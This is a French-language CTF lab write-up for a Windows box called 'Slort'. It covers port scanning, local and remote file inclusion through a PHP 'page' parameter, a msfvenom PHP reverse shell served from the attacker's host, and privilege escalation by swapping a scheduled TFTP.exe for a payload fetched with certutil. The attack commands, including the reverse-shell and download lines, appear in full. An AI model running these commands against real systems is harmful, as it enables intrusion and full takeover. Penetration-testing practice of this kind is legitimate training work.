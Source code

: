   # Slort

	sudo masscan -p1-65535,U:1-65535 192.168.240.53 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 192.168.240.53 -oN nmap.txt
	feroxbuster --silent -u http://192.168.240.53:8080
	
Scans classiques.

	PORT STATE SERVICE VERSION  
	21/tcp open ftp FileZilla ftpd 0.9.41 beta  
	135/tcp open msrpc Microsoft Windows RPC  
	139/tcp open netbios-ssn Microsoft Windows netbios-ssn  
	445/tcp open microsoft-ds?  
	3306/tcp open mysql?  
	4443/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)  
	5040/tcp open unknown  
	8080/tcp open http Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)  
	49664/tcp open msrpc Microsoft Windows RPC  
	49665/tcp open msrpc Microsoft Windows RPC  
	49666/tcp open msrpc Microsoft Windows RPC  
	49667/tcp open msrpc Microsoft Windows RPC  
	49668/tcp open msrpc Microsoft Windows RPC  
	49669/tcp open msrpc Microsoft Windows RPC

L'URL http://192.168.240.53:8080/site/ redirige sur http://192.168.240.53:8080/site/index.php?page=main.php et cela semble être la vraie racine du site. La structure de l'URL fait directement penser à de l'inclusion de fichiers. 

J'ai essayé  http://192.168.240.53:8080/site/index.php?page=../../../../../Windows/System32/drivers/etc/hosts et cela a fonctionné, j'ai pu lire le fichier hosts de la machine. Il n'y a apparemment pas de SSH sur cette VM donc impossible de lire des clés RSA. Il me reste deux principales options : lire les pages PHP avec un wrapper, ou une RFI. 

J'ai d'abord testé la RFI juste parce que c'est l'option la plus simple à vérifier, mais cela a fonctionné : 

	echo "test" >> test.txt
	python -m http.server 8000
	...
	curl "http://192.168.240.53:8080/site/index.php?page=http://192.168.45.194:8000/test.txt"

J'ai voulu injecter une backdoor classique mais je n'ai pas réussi à trouver le dossier où elle atterrissait. Injection d'un reverse-shell à la place : 
	
	msfvenom -p php/reverse_php LHOST=192.168.45.194 LPORT=443 -f raw > rev.php
	...
	curl "http://192.168.240.53:8080/site/index.php?page=http://192.168.45.194:8000/rev.php"
	...
	msfconsole -x "use exploit/multi/handler;set payload php/reverse_php;set LHOST 192.168.45.194;set LPORT 443;run;"
	...
	powershell -ep bypass
	whoami
	type C:\Users\rupert\Desktop\local.txt

Élévation de privilèges : 

En fouillant dans le C:\ on trouve un dossier "Backup" contenant quelques informations ainsi qu'un service apparemment lancé toutes les 5 minutes. On a les droits d'écriture dans le dossier, c'est donc un simple remplacement de service : 

	cd C:\Backup
	ren TFTP.exe TFTP.exe.old
	certutil.exe -urlcache -f http://192.168.45.194:8000/msfvenom.exe C:\Backup\TFTP.exe

On reçoit la connexion quelques minutes après : 

	rlwrap nc -nvlp 443
	...
	whoami
	type C:\Users\Administrator\Desktop\proof.txt
